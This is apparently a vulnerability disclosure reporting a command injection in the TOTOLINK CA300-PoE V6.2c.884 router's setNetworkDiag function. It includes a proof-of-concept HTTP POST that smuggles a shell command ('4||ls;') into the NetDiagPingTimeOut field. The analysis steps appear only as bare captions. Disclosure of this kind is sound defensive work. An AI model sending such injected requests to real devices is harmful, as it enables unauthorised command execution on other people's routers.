




# TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the NetDiagPingTimeOut parameter in the function setNetworkDiag

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setNetworkDiag`.

## 

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html


## Affected version

**Version: V6.2c.884**


## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setNetworkDiag","NetDiagMethod" : "0", "NetDiagPingTimeOut": "4||ls;"}
```




The function `setNetworkDiag` is used to set the corresponding variable



In function `showNetworkDiag`



step into function `getDiagInfo`

